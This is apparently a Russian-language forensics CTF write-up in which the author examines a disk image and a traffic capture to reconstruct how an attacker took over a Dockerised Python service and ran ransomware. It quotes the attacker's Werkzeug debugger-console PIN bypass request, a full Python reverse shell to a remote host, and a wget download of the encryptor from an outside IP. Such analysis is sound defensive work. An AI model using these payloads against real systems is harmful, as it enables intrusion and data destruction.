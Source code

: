# Начало

## Изучение диска

Сначала я увидел `image.img` и `dump.pcapng` (на кали).

Сразу я решил открыть `image.img` через `testdisk` и скопировал себе в папку `image/` некоторые директории из корня:
`bin.usr-is-merged/`, `home/`, `media/`, `opt/`, `root/`, `tmp/`, `etc/`, `lib.usr-is-merged/`, `mnt/`, `proc/`, `sbin.usr-is-merged/`, `var/`

Сразу обратил внимание, что в `opt/` есть Addition для VirtualBox (эта информация не пригодилась)

Далее я обратил внимание на содержимое `/home/ioal/`. Там была папка `app/`, внутри которой вроде было приложение в докере, но все файлы оканчивались на `.enc` и внутри ничего не было понятно

## Запуск системы

После этого я решил запустить эту систему через

```
qemu-system-x86_64 \
 -m 4096 \
 -drive format=raw,file=image.img \
 -cpu host \
 -smp 6 \
 -machine type=q35,accel=kvm
```

Внутри была Ubuntu 24.04.1 LTS (Noble Numbat) и единственный аккаунт `ioal`

## Попытка входа

Пароль от него я не знал, поэтому решил скопировать себе `/etc/password` и `/etc/shadow`

Я прописал `fdisk --list image.img` и узнал оффсет раздела с убунтой - `4096` (`4096 * 512 = 2097152`)

Далее я создал папку `/mnt/tmp` (на кали) и прописал `sudo losetup --offset 2097152 /dev/loop667 image.img` и `sudo mount /dev/loop667 /mnt/tmp`

Таким образом я скопировал себе `/etc/password` и `/etc/shadow` и попытался узнать пароль от `ioal` с помощью `john`, но, к сожалению, не вышло (остановил проверку хеша на 58.1% на вордсете `rockyou.txt` (в кали `/usr/share/wordset/rockyou.txt.gz` распаковал через `gunzip` в `/usr/share/wordset/rockyou.txt`))

Тогда я просто решил `sudo chroot /mnt/tmp/` и через `useradd qwerty`, `passwd qwerty` создал себе пользователя, которому через `usermod qwerty -aG sudo` выдал доступ к `sudo` (я потом еще пожалел о том, что сразу не создал `/home/qwerty`, потому что файловый менеджер уничтожил мне виртуалку сообщениями об ошибке)

Я заметил, что хост называется `fileshare`, а так же его айпи (`ip a`):
- enp0s2: `10.0.2.15/24` (DNS `10.0.2.3`)
- br-4d2c7d1f6f87: `172.18.0.1/16`
- docker0: `172.17.0.1/16`

В `/root/.bash_history` я обнаружил следы, вероятно, организаторов:
```
cd nto-forensics/
ls
cp -r project /home/ioal/app
cd /home/ioal
ls
cd app
ls
cd ../
chown -h
chown --help
chown -hR ioal ./app
ls -al
exit
cd nto-forensics/
ls
ls -al
cd ../
```

И заметил, что в `/home/ioal/` нет никаких файлов

## Создание лога журнала

Дальше я сделал себе свой `system.log` при помощи `sudo journalctl --no-tail > /home/qwerty/main.log`, после чего срезал его до `/home/qwerty/prev.log` (без запуска 26 марта и позже, т.е. только 16 января и 22 января)

Я очень долго копался в логах журанала, но ничего толкового так и не нашел (нашел пару выключений при помощи кнопки выключения, несколько резких выключений, действия AppArmor'а (обычно над фаерфоксом) и всякое другое)

# Продолжение

После всего этого я устал и решил наконец открыть `dump.pcapng` (на кали)

Сначала я вслучайную нажимал на пакеты и в какой-то момент обнаружил в TCP DATA строку
```
root@7a5a67189bc9:/app#
```

И понял, что надо просто просмотреть все пакеты и оценить находки

## Действия в дампе трафика

Последовательно переключая пакеты я понял, что:

Все проделки идут от `10.10.0.12` через `10.10.10.3` (просто ретрансляция) на `172.18.0.3`

Как помнится по айпи на хосте, `172.18.0.0` - это мост докера (значит `172.18.0.3` - это сам сервис)

В докере был запущен python сервис, у которого был путь /console, доступ к которой получил злоумышлиник (`10.10.10.12` через `10.10.10.3`) и нашел там "SECRET"="yqqPfQiFZmXsmnZQYMPF" в разделе <script> в теле HTML

Далее злоумышлиник подобрал url так, что смог обойти пин-код при помощи этого secret'а
```
GET /console?__debugger__=yes&cmd=pinauth&pin=123-456-789&s=yqqPfQiFZmXsmnZQYMPF
```
и получил доступ к python консоли, в которую вписал реверс-шелл
```
/console?&__debugger__=yes&cmd=import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.10.12%22%2C9001))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bimport%20pty%3B%20pty.spawn(%22bash%22)&frm=0&s=yqqPfQiFZmXsmnZQYMPF
```
Команда реверс-шелла:
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.12",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("bash")
```

И, получил доступ к `root` в докере при помощи `ls /dev`, 'mount /dev/sda2 /mnt`, `cd /mnt/home`

Потом прописал эти команды:
```
cd ioal
rm .*
cd ../
cd ioal
wget http://81.177.221.242:8125/app
```
`rm .*` удалил все файлы в домашней директории, а `wget` пожаловался на то, что директория `app` уже есть (в ней был сервис-докер)
```
ls
cd ../
wget http://81.177.221.242:8125/app
./app
chmod +x app
./app
exit
```

С помощью этих команд злоумышленник поднялся в `/home` и запустил шифровальщик

При запуске этот `app` несколько раз написал
```
CUSTOM_write found, patched.
ok
```
И затем
```
Encrypting .//app: Encrypting .//ioal/app/docker-compose.yml: Encrypting .//ioal/app/server/requirements.txt: Encrypting .//ioal/app/server/wait-for-postgres.sh: Encrypting .//ioal/app/server/Dockerfile: Encrypting .//ioal/app/server/templates/index.html: Encrypting .//ioal/app/server/__init__.py: Encrypting .//ioal/app/server/assets/css/listr.pack.css: Encrypting .//ioal/app/server/assets/css/custom.css: Encrypting .//ioal/app/server/assets/css/jquery.filer.css: Encrypting .//ioal/app/server/assets/fonts/fontawesome-webfont.woff: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.ttf: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer-preview.html: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.svg: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.eot: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.woff: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.cs
```

Таким образом все оставшиеся файлы в домашней директории и сам `app` были зашифрованы

# Решение задач

Я просто начал выписывать соответствующие пакеты + их содержимое и их номер + время

Когда я дошел до `app` я решил погуглить `"CUSTOM_write found"` и нашел единственную ссылку на проект на гитхабе ([linux-anti-debugging](https://github.com/tobyxdd/linux-anti-debugging/)), который использовал `ptrace` для обфускации

## Задание 2-6

Как настало время решать 2-6 я скачал `app` себе на кали при помощи таковой функции в wireshark'е (файл -> экспортировать объекты -> HTTP -> text/plain app)

Когда я решил открыть его в `ghidra`, я увидел в конце текст, который потом еще раз увидел при помощи `strings ./app`:
```
...
PROT_EXEC|PROT_WRITE failed.
_j<X
$Info: This file is packed with the t
Z executable packer http://upx.sf.net $
$Id: t
Z 4.24 Copyright (C) 1996-2024 the t
Z Team. All Rights Reserved. $
_RPWQM)
j"AZR^j
PZS^
/proc/self/exe
...
```

Этот `upx` был скачан на кали, но когда я использовал `upx -d ./app` он мне сказал, что не в его кондициях распаковать этот файл

Тогда я решил поэкспериментировать с этим приложением и пошифровал несколько тестовых файлов, но, к сожалению, не в моих силах было разобрать алгоритм шифрования

Проконсультировавшись с `gemini-2.5-pro-exp-03-25` и мне было предложено использовать `hexdump`, где я и увидел сигнатуру `beef dead bade c0fe` во всех зашифрованных файлах (пример с `Dockerfile.enc`):

`hexdump ./Dockerfile.enc`
```
0000000 beef dead bade c0fe 2ad6 50f9 b923 a3f6
0000010 8583 09fe 8c9f 3e36 73e0 e4cc 2159 a88f
0000020 eca6 af29 8993 638d b272 1cac 77fc 79a3
0000030 cfc2 674c 18d8 259c 705b 309b e774 711d
0000040 7f50 8519 9c6b a4e6 f8b4 82b3 4ba0 a875
0000050 7a7f 9f27 e4ca 8e9e b3cf d310 f56d 4fdf
0000060 895b f9fa 0165 e527 9d69 1eb1 5637 155a
0000070 45b0 d999 d4e0 571e 4154 6998 5e5d b671
0000080 3736 70cc b1e8 4307 9b63 377f b983 7e02
0000090 6ab2 3f23 c057 08ab 81c0 3986 5225 acea
00000a0 4fb8 420c 7fb1 b1f1 7e31 38aa 2753 56c6
00000b0 8655 2090 4c4d 362e b94a 13d5 248e 96f6
00000c0 414a 8e69 03db 82f6 4061 1a95 898a bda1
00000d0 b951 98ac cf49 041d e188 5c04 9f32 b3b9
00000e0 c4e8 cb05 fd77 211b fc10 fc47 b35c 87bb
00000f0 7f5e cd64 5aa3 2ded ea50 674e 49f7 69b5
0000100 ac54 4cc9 9cfb 4bcd 7d78 4e34 8a62 a862
0000110 dc5a ee26 b93e cade                    
0000118
```
